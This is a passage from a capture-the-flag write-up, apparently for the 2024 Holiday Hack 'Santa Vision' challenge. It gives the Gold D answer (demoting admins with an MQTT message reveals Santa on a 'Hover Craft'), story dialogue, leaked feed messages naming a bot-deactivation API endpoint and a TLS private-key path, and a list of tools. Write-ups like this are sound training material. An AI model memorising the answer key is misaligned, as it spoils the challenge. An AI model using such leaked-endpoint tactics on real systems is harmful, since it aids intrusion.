northpolefeeds ./static/images/hhc2024santatopsecretimages835826406/santa835826406-1.png,./static/images/hhc2024santatopsecretimages835826406/santa835826406-2.png,./static/images/hhc2024santatopsecretimages835826406/santa835826406-3.png,./static/images/hhc2024santatopsecretimages835826406/santa835826406-4.png,./static/images/hhc2024santatopsecretimages835826406/santa835826406-5.png,./static/images/hhc2024santatopsecretimages835826406/santa835826406-6.png,./static/images/hhc2024santatopsecretimages835826406/santa835826406-7.png,./static/images/hhc2024santatopsecretimages835826406/santa835826406-8.png
```

The images are available under the `./northpolefeeds/gold/` folder. They show Santa riding a different contraption: a Hover Craft.

#### Gold D Solution
**Question:** There are too many admins. Demote Wombley and Alabaster with a single MQTT message to correct the `northpolefeeds` feed. What type of contraption do you see Santa on?
**Answer:** `Hover Craft`

.

---

## Outro

**Ribb Bonbowford**

Phenomenal! You've figured it out—Santa's on a new ride. You've earned your gold badge with this one!

**Santa**

Finally, the dreadful propaganda is finally taken off the airwaves. That should go a long way towards healing the divide between the elves.

**Wombley Cube**

Oh right, I had forgotten about that broadcast. Thank you for shutting it down. There's no need for it now that the conflict is no more.

**Alabaster Snowball**

I hate to seem childish by saying Wombley started it again, but, well, he did. He took over Santa's broadcasts in an attempt to recruit more elves to his cause!

But I should have known better than to stoop to his level. As the saying goes, two wrongs don't make a right.

---

## Important Information for Another Change

There are two messages in the `frostbitfeed` topic that will be needed in another challenge:
```
Error msg: Unauthorized access attempt. /api/v1/frostbitadmin/bot/<botuuid>/deactivate, authHeader: X-API-Key, status: Invalid Key, alert: Warning, recipient: Wombley
```
```
Let's Encrypt cert for api.frostbit.app verified. at path /etc/nginx/certs/api.frostbit.app.key
```

---

## Files

| File | Description |
|---|---|
| [`applicationDefault.bin`](./site-files/applicationDefault.bin) | JFFS2 filesystem image analyzed for credentials |
| [`SantasTopSecretDB-2024-Z.sqlite`](./site-files/SantasTopSecretDB-2024-Z.sqlite) | SQLite database extracted from the challenge infrastructure |
| `northpolefeeds/silver/` | Santa images from `northpolefeeds` after Silver admin demotion — Pogo Stick |
| `northpolefeeds/gold/` | Santa images from `northpolefeeds` after Gold admin demotion — Hover Craft |

## References

- [`ctf-techniques/network/scanning/`](../../../../../ctf-techniques/network/scanning/README.md) — Nmap scanning used in Santa Vision A
- [`ctf-techniques/post-exploitation/linux/`](../../../../../ctf-techniques/post-exploitation/linux/README.md) — filesystem and database analysis
- [Mosquitto MQTT client](https://mosquitto.org/) — `mosquitto_sub` and `mosquitto_pub` used throughout
- [MQTTX GUI client](https://mqttx.app/) — graphical MQTT client referenced in Hint 1
- [jefferson — JFFS2 filesystem tool](https://github.com/onekey-sec/jefferson) — referenced in Hint 3
- [ROT cipher — Wikipedia](https://en.wikipedia.org/wiki/ROT13) — used in Santa Vision C Gold
- [MQTT protocol overview](https://mqtt.org/)

---

## Navigation

| |
|---:|
| [Elf Stack](../elf-stack/README.md) → |
